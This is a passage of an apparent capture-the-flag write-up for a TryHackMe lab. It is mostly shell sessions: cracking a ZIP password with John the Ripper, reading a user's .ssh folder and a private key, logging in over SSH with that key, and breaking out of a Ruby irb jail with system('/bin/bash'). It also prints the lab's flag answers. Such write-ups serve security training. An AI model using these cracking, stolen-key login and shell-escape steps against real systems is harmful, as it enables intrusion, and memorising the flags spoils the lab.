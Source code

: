 <h3>John</h3>

```bash
# john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
zxcvbnm          (backup.zip)
```

```bash
:~/TheServerFromHell/home/hades# ls -lah
total 12K
drwx------ 3 root root 4.0K Jul 29 00:29 .
drwx------ 3 root root 4.0K Jul 29 00:29 ..
drwx------ 2 root root 4.0K Sep 15  2020 .ssh
```


```bash
~/TheServerFromHell/home/hades/.ssh# ll
total 28
drwx------ 2 root root 4096 Sep 15  2020 ./
drwx------ 3 root root 4096 Jul 29 00:29 ../
-rw-r--r-- 1 root root  736 Sep 15  2020 authorized_keys
-rw-r--r-- 1 root root   33 Sep 15  2020 flag.txt
-rw-r--r-- 1 root root   10 Sep 15  2020 hint.txt
-rw------- 1 root root 3369 Sep 15  2020 id_rsa
-rw-r--r-- 1 root root  736 Sep 15  2020 id_rsa.pub
```

```bash
:~/TheServerFromHell/home/hades/.ssh# cat flag.txt
thm{h0p3_y0u_l1k3d_th3_f1r3w4ll}
```

<br>

<p>1.2. user.txt<br>
<code>thm{sh3ll_3c4p3_15_v3ry_1337}</code></p>


```bash
:~/TheServerFromHell/home/hades/.ssh# cat hint.txt
2500-4500
```


```bash
:~/TheServerFromHell/home/hades/.ssh# cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
...
```

```bash
:~/TheServerFromHell/home/hades/.ssh# chmod 600 id_rsa
:~/TheServerFromHell/home/hades/.ssh# ssh -i id_rsa hades@TargetIP -p 3333
...
Welcome to hell. We hope you enjoy your stay!
 irb(main):001:0> ls
Traceback (most recent call last):
        2: from /usr/bin/irb:11:in `<main>'
        1: from (irb):1
NameError (undefined local variable or method `ls' for main:Object)
irb(main):002:0> system('ls')
user.txt
=> true
irb(main):003:0> system('/bin/bash')
```
